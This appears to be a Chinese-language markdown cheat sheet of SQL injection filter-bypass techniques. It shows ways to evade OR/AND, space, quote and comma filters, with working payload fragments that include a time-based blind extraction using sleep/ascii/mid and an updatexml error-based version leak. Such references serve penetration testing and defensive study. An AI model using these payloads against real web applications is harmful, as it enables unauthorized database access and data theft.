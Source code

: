 
## 字符编码绕过
编码设置引发的安全问题,待补充
[Mysql字符编码利用技巧](https://www.leavesongs.com/PENETRATION/mysql-charset-trick.html)


<br>

# 绕过思路

## OR或AND绕过
 - 大小写变形
   - `Or,OR,oR`
 - 双写绕过
   - `oorr anandd`
 - 添加注释
   - `/*or*/`
 - 使用 `||`  `&&` 代替。（注意对`&&`进行URL编码）


## 空格绕过
 - 使用 `/**/`绕过过滤空格。
   - `id=1'/**/AND/**/1=1#`
 - 不使用空格绕过
   - `id=(sleep(ascii(mid(user()from(2)for(1)))=109))`
   - `1'||updatexml(1,concat(0x7e,version()),1)||'1'='1`
 - 特殊字符代替
   - `%09` TAB键（水平）
   - `%0a` 新建一行
   - `%0c` 新的一页
   - `%0d` return功能
   - `%0b` TAB键（垂直）
   - `%a0` 空格

## 单引号绕过
 - 宽字节绕过
   - `id=%df' AND 1=1 #`
 - 将字符串转换为16进制
   - `SELECT * FROM users WHERE username = 0x61646d696e`
 - 使用CHAR()
   - `SELECT * FROM users WHERE username = CHAR(97, 100, 109, 105, 110)`

## 逗号绕过
 - 不是用逗号
   - `SUBSTR(str FROM pos FOR len)`
   - `SELECT CASE WHEN 1=1 THEN 1 ELSE 0 END`
   - `LIMIT 1 OFFSET 1`
